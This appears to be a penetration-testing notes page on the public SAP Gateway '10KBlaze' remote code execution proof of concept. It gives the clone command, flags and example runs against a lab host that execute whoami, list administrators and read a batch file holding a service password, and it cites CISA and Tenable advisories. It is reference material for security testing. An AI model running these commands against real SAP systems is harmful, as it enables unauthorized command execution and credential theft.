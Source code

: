 ```yaml
---
title : "SAP Gateway RCE"
# pre : ' '
description : "SAP Gateway RCE exploits. / SAP Gateway 10Kblaze Remote Code Execution."
date : 2025-05-21T15:14:02+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


---

This PoC exploits an ACL misconfiguration in the SAP Gateway (port 33xx) that leads to a Remote Command Execution (RCE).

`SAPanonGWv1.py` is the first version of the exploit based on raw packets sent. It does not require any additional modules (Run and Pwn!).

`SAPanonGWv2.py` is the second version of the exploit based on the [pysap](https://github.com/SecureAuthCorp/pysap) library.

## Installation

```plain
git clone https://github.com/chipik/SAP_GW_RCE_exploit.git
```

## Usage

```plain
python2 SAPanonGWv1.py
```

## Flags

```plain
-t TARGET
-p PORT
-c CMD
-v VERBOSE
-o OUTPUT
```

## Examples

### WhoAmI

```plain
$ python2 SAPanonGWv1.py -t 10.10.10.10 -p 3300 -c whoami
[*] sending cmd:whoami
saphost\sapserviceadm
```

### Local Administrators Group

```plain
$ python2 SAPanonGWv1.py -t 10.10.10.10 -p 3300 -c "net localgroup administrators"                
[*] sending cmd:net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator

admlocal
crypt0rr
The command completed successfully.
```

### Files via PowerShell

```plain
$ python2 SAPanonGWv1.py -t 10.10.10.10 -p 3300 -c "powershell.exe -c type c:\SAP\stop_sap.bat"
[*] sending cmd:powershell.exe -c type c:\SAP\Stop_sap.bat
@Echo ATTENTION - YOU ARE GOING TO STOP SAP
PAUSE
sapcontrol -nr 00 -user sapserviceadm Welkom1234! -function Stop
```

## URL list

- [Github.com - SAP GW RCE Exploit](https://github.com/chipik/SAP_GW_RCE_exploit)
- [Cisa.gov - New Exploits for Unsecure SAP Systems](https://www.cisa.gov/news-events/cybersecurity-advisories/aa19-122a)
- [Nessus.com - SAP Gateway 10KBlaze Remote Code Execution](https://www.tenable.com/plugins/nessus/126003)
